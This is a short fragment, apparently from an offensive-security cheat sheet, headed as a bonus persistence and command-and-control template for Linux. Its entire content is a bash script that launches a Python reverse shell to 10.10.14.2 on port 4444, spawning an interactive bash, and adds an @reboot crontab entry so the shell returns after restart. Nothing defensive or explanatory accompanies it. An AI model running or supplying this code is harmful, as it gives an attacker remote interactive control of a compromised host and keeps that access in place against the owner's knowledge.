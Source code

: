 ***

### X. ⚔️ Bonus: Persistence + C2 Template (Linux)

```bash
#!/bin/bash
# Minimal C2 Persistence
if ! pgrep -f revshell.py > /dev/null; then
    nohup python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("10.10.14.2",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")' &
fi
(crontab -l; echo "@reboot /tmp/revshell.py") | crontab -
```

***
